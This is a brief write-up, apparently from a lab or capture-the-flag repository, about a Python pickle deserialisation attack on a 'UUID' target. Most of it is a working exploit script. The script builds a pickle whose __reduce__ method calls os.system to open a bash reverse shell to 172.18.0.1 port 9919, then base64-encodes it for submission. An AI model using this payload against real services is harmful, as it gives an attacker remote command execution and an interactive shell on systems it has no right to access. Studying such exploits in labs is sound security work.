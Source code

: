 # Pickle deserialisation in UUID
Very similar examples exist but I already had the idea in place before I found some geezer that had pretty much the same setup rip
his exploit is neater so used it aswell
https://medium.com/gdg-vit/deserialization-attacks-d312fbe58e7d

```python
import os
import pickle
import base64

payload = "bash -c \\'bash -i >& /dev/tcp/172.18.0.1/9919 0>&1\\'"

class Exploit(object):
    def __reduce__(self):
        return (eval,(f"os.system('{payload}')",))


exploitPickled = pickle.dumps(Exploit())
print(base64.b64encode(exploitPickled))
```